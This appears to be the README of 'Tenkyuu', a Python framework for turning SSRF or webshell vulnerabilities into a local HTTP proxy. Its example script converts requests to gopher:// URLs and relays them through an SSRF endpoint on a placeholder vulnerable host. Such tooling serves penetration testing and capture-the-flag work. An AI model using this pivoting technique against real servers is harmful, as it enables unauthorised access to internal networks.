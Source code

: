 # Tenkyuu

A framework to create a HTTP Proxy through web vulunerabilities (SSRF, WebShell, etc.) quickly. 

## Usage

Firstly, install the package from pypi. 

```bash
pip install tenkyuu
```

Then code your proxy rules. For example:

```python
from tenkyuu import Tenkyuu, internal_server_error
import requests

app = Tenkyuu(verbose = True)

def ssrf_proxy(req):
    # The req param is an object that contains the information of HTTP Request(s)

    # The req.gopherize() function will convert HTTP Request Packet 
    # to `gopher://...` protocol automatically
    gopherized_url = req.gopherize() 
    
    # Assume that the server has a ssrf vulunerale entrance
    # and supports gopher:// protocol, responsing with data 
    # in JSON format
    resp = requests.get("http://vulunerable.com/ssrf.php", params = {
        "url": gopherized_url
    }).json()

    if resp["status"] != "OK":
        return internal_server_error()

    return resp["data"]

if __name__ == "__main__":
    app.run(
        handler = ssrf_proxy,
        host = "127.0.0.1", 
        port = 8088
    )
```

Run the script and set your HTTP Proxy to `127.0.0.1:8088` in the application you will use.

## License

Apache License